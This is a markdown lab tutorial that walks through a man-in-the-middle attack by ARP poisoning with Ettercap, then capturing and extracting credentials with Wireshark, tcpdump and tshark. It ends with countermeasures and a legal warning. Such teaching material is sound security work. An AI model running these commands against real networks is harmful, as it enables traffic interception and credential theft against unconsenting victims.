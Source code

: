 # MITM Attack Procedure with Ettercap and Wireshark

Complete methodology for performing Man-in-the-Middle attacks using ARP poisoning in controlled lab environment.

## Attack Overview
- **Technique**: ARP Poisoning
- **Tools**: Ettercap, Wireshark
- **Objective**: Intercept and analyze network traffic between victim and gateway
- **Environment**: Isolated lab network only

## Lab Environment Setup
- **Attacker**: Kali Linux (192.168.1.5)
- **Victim**: Windows 7 (192.168.1.10)
- **Gateway**: VirtualBox gateway (192.168.1.1)
- **Network**: Bridged or Internal network mode

## Step 1: Network Reconnaissance

```bash
# Discover network topology
ip route show

# Identify gateway
ip route | grep default

# Discover hosts on network
arp-scan -l
# or
nmap -sn 192.168.1.0/24
```

## Step 2: Enable IP Forwarding

```bash
# Enable IP forwarding (CRITICAL for maintaining connectivity)
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Verify IP forwarding is enabled
cat /proc/sys/net/ipv4/ip_forward
# Should return: 1
```

## Step 3: Start Ettercap ARP Poisoning

```bash
# Basic ARP poisoning command
sudo ettercap -T -M arp:remote /192.168.1.1// /192.168.1.10//

# Command breakdown:
# -T: Text mode interface
# -M arp:remote: ARP poisoning attack mode
# /192.168.1.1//: Gateway target
# /192.168.1.10//: Victim target
```

## Step 4: Verify MITM Position

```bash
# Check ARP table manipulation on victim (if accessible)
arp -a

# On victim machine, attacker's MAC should appear for gateway IP
# Example output:
# 192.168.1.1 (gateway) at aa:bb:cc:dd:ee:ff [ether] on eth0
# (where aa:bb:cc:dd:ee:ff is attacker's MAC address)
```

## Step 5: Traffic Capture with Wireshark

```bash
# Start Wireshark with appropriate interface
sudo wireshark -i eth0

# Alternative: command-line capture
sudo tcpdump -i eth0 -w mitm_capture.pcap host 192.168.1.10
```

## Step 6: Wireshark Analysis

### Essential Filters for MITM Analysis

```
# All HTTP traffic
http

# HTTP authentication
http.authorization

# HTTP POST requests (form submissions)
http.request.method == "POST"

# Specific host traffic
ip.addr == 192.168.1.10

# ARP traffic verification
arp
```

### Credential Harvesting

1. **HTTP Basic Authentication Detection**
   - Filter: `http.authorization`
   - Look for "Authorization: Basic" headers
   - Decode Base64 strings to reveal credentials

2. **Form-based Login Interception**
   - Filter: `http.request.method == "POST"`
   - Examine form data in packet details
   - Look for parameters like "username", "password", "login"

3. **Clear Text Protocol Analysis**
   - FTP credentials: Filter `ftp`
   - Telnet sessions: Filter `telnet`
   - POP3/IMAP: Filter `pop` or `imap`

## Step 7: Evidence Documentation

### Traffic Analysis Results

```bash
# Extract HTTP credentials using tshark
tshark -r mitm_capture.pcap -Y "http.authorization" -T fields -e http.authorization

# Extract POST data
tshark -r mitm_capture.pcap -Y "http.request.method==POST" -T fields -e http.file_data

# Export captured packets
File > Export Specified Packets > Save as .pcap
```

### Screenshot Evidence
- Wireshark showing intercepted credentials
- ARP table showing successful poisoning
- Network topology confirmation

## Step 8: Attack Cleanup

```bash
# Stop Ettercap (Ctrl+C)
# This automatically restores original ARP tables

# Disable IP forwarding
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward

# Monitor victim's outbound traffic (from attacker machine)
tcpdump -i eth0 src 192.168.1.10 and dst not 192.168.1.0/24
# If you see traffic to internet = connectivity restored

# Verify connectivity (requires victim machine access)
# Option 1: Physical/RDP access to victim
ping 8.8.8.8  # Run on victim machine

# Option 2: Remote shell (if compromised)
# Execute via existing backdoor/meterpreter session

# Option 3: No victim access
# Monitor only - connectivity assumed if normal traffic resumes
```

## Detection Indicators

**Signs of successful MITM:**
- Traffic visible in Wireshark from victim to external hosts
- ARP table shows attacker MAC for gateway IP
- Slight increase in network latency
- HTTP credentials captured in clear text

**Troubleshooting failed MITM:**
- Check IP forwarding is enabled
- Verify network mode allows traffic interception
- Confirm ARP poisoning is working with `arp -a`
- Check firewall rules blocking forwarded traffic

## Security Implications

1. **HTTP traffic** is completely vulnerable to interception
2. **Authentication credentials** transmitted in clear text are compromised
3. **Session cookies** can be captured for session hijacking
4. **Network protocols** without encryption expose sensitive data

## Countermeasures

1. **Use HTTPS** for all sensitive communications
2. **Static ARP entries** prevent ARP poisoning
3. **Network monitoring** can detect ARP table anomalies
4. **Switch port security** limits MAC address changes
5. **VPN tunneling** encrypts all traffic regardless of application protocol

## Legal and Ethical Considerations

⚠️ **WARNING**: This technique should only be used in:
- Authorized penetration testing engagements
- Personal lab environments
- Educational settings with proper supervision
- Networks you own or have explicit permission to test